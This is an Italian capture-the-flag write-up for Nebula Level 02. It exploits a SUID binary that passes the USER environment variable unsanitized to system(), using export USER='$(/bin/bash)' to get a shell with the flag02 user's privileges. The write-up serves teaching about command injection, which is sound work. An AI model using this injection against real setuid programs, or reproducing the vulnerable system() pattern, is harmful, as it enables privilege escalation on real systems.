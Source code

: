 ## 🧨 Nebula – Level 02

**Obiettivo**: ottenere i privilegi dell'utente `flag02` sfruttando una vulnerabilità nell'eseguibile `flag02`.

---

### 📂 Informazioni iniziali

```bash
level02@nebula:/home/flag02$ ls -l
-rwsr-x--- 1 flag02 level02 7438 ... flag02
```

🔐 Il binario `flag02` ha il **bit SUID** attivo → se lo eseguiamo, i comandi lanciati al suo interno vengono eseguiti con i privilegi di `flag02`.

---

### 🔍 Analisi statica (`objdump`)

La funzione `main()` contiene il seguente comportamento chiave:

```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer);
system(buffer);
```

🧠 L'eseguibile:

* recupera il contenuto della variabile d'ambiente `USER`
* la inserisce in una stringa con `asprintf()`
* la passa a `system()` (che invoca `/bin/sh -c <string>`)

---

### ❗ Vulnerabilità

La chiamata a `system()` usa direttamente l'input utente da una variabile d’ambiente **senza sanitizzazione** → possiamo iniettarci comandi arbitrari.

---

### 🧪 Tentativi iniziali

```bash
export USER=getflag
./flag02
# output: about to call system("/bin/echo getflag is cool")
```

😓 Ma: `getflag` viene eseguito con il nostro utente (`level02`), quindi non otteniamo nulla.

---

### ✅ Exploit

Passiamo un **comando secondario** dentro `USER`, che verrà eseguito **dall'interno** del comando `echo`:

```bash
export USER='$(/bin/bash)'
./flag02
```

🔓 Questo esegue una shell come `flag02`!

```bash
flag02@nebula:/home/flag02$ whoami
flag02
flag02@nebula:/home/flag02$ getflag
flag02 You have successfully executed getflag on a target account
```

---

### 🏁 Soluzione finale

```bash
export USER='$(/bin/bash)'
./flag02
# Entra in shell con i privilegi di flag02
getflag
```

---

### 💡 Lezione appresa

L'uso non sicuro di `system()` con input non sanitizzato può **esporre l'interprete di shell a code injection**, anche tramite variabili d'ambiente apparentemente innocue.

---